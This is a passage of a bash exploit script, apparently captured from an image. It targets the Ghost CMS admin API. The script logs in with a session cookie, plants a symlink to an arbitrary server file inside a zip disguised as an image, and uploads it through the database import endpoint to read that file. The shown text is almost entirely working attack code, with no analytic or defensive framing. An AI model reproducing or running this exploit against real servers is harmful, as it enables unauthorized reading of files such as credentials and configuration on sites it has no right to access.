 ```shell
}

while getopts 'u:p:' flag; do
  case "${flag}" in
    u) USERNAME="${OPTARG}" ;;
    p) PASSWORD="${OPTARG}" ;;
    *) usage
       exit ;;
  esac
done

if [[ -z $USERNAME || -z $PASSWORD ]]; then
  usage
  exit
fi

function generate_exploit()
{
  local FILE_TO_READ=$1
  IMAGE_NAME=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 13; echo)
  mkdir -p $PAYLOAD_PATH/content/images/2024/
  ln -s $FILE_TO_READ $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
  zip -r -y $PAYLOAD_ZIP_NAME $PAYLOAD_PATH/ &>/dev/null
}

function clean()
{
  rm $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
  rm -rf $PAYLOAD_PATH
  rm $PAYLOAD_ZIP_NAME
}

#CREATE COOKIE
curl -c cookie.txt -d username=$USERNAME -d password=$PASSWORD \
   -H "Origin: $GHOST_URL" \
   -H "Accept-Version: v3.0" \
   $GHOST_API/session/ &> /dev/null

if ! cat cookie.txt | grep -q ghost-admin-api-session;then
  echo "[!] INVALID USERNAME OR PASSWORD"
  rm cookie.txt
  exit
fi

function send_exploit()
{
  RES=$(curl -s -b cookie.txt \
  -H "Accept: text/plain, */*; q=0.01" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "X-Ghost-Version: 5.58" \
  -H "App-Pragma: no-cache" \
  -H "X-Requested-With: XMLHttpRequest" \
  -H "Content-Type: multipart/form-data" \
  -X POST \
  -H "Origin: $GHOST_URL" \
  -H "Referer: $GHOST_URL/ghost/" \
  -F "importfile=@`dirname $PAYLOAD_PATH`/$PAYLOAD_ZIP_NAME;type=application/zip" \
  -H "form-data; name=\"importfile\"; filename=\"$PAYLOAD_ZIP_NAME\"" \
  -H "Content-Type: application/zip" \
  -J \
  "$GHOST_URL/ghost/api/v3/admin/db")
  if [ $? -ne 0 ];then
```